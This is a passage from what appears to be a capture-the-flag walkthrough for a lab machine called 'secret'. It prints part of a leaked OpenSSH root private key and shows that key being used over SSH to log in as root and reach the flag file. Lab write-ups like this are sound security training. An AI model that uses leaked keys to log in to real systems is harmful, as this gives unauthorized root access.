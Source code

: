 ```bash
dFu1uEJvusaIbslVQqpAqgX5Ht75rd0BZytTC9Dx3b71YYSdoAAADBANMZ5ELPuRUDb0Gh
mXSlMvZVJEvlBISUVNM2YC+6hxh2Mc/0Szh0060qZv9ub3DXCDXMrwR5o6mdKv/kshpaD4
Ml+fjgTzmOo/kTaWpKWcHmSrlCiMi1YqWUM6k9OCfr7UTTd7/uqkiYfLdCJGoWkehGGxep
lJpUUj34t0PD8eMFnlfV8oomTvruqx0wWp6EmiyT9zjs2vJ3zapp2HWuaSdv7s2aF3gibc
z04JxGYCePRKTBy/kth9VFsAJ3eQezpwAAAMEAwaLVktNNw+sG/Erdgt1i9/vttCwVVhw9
RaWN522KKCFg9W06leSBX7HyWL4a7r21aLhglXkeGEf3bH1V4nOE3f+5mU8S1bhleY5hP9
6urLSMt27NdCStYBvTEzhB86nRJr9ezPmQuExZG7ixTfWrmmGeCXGZt7KIyaT5/VZ1W7Pl
xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
-----END OPENSSH PRIVATE KEY-----
...
```

Use this key to login as `root` and grab the system flag.

```bash
$ ssh -i root-id-rsa root@10.129.157.79
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 14 Feb 2022 06:50:19 PM UTC

  System load:           0.08
  Usage of /:            52.7% of 8.79GB
  Memory usage:          9%
  Swap usage:            0%
  Processes:             215
  Users logged in:       1
  IPv4 address for eth0: 10.129.157.79
  IPv6 address for eth0: dead:beef::250:56ff:feb9:6565


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Oct 26 16:35:01 2021 from 10.10.14.6
root@secret:~# ls -la ~/root.txt
-r-------- 1 root root 33 Feb 14 16:38 /root/root.txt
```
